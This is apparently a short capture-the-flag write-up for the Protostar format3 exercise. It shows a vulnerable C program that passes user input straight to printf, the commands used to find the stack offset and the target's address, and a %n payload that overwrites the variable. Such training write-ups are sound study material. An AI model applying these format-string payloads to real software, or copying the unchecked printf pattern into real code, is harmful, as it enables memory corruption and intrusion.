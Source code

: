 ```yaml
---
layout: post
title: "Protostar format03 error"
tags: [protostar]
comments: false
---
```


We are given a source code with this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

This looked the exact same as format02. 

offset
```
user@protostar:/opt/protostar/bin$ (python -c 'print "AAAA"+"%x."*20') | ./format3 
AAAA0.bffff5d0.b7fd7ff4.0.0.bffff7d8.804849d.bffff5d0.200.b7fd8420.bffff614.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.
target is 00000000 :(
user@protostar:/opt/protostar/bin$ (python -c 'print "AAAA%12$x"') | ./format3AAAA41414141
target is 00000000 :(

```

The offset is 12

address of target
```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

attack
```
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08' + ' ' + '%1539100x.'*11 + '%n'" | ./format3 

you have modified the target :)
```

I think that the author of this challenge didn't want us to use the exact same way on how we did format02 so if I have time later on I will loook at it more in detail.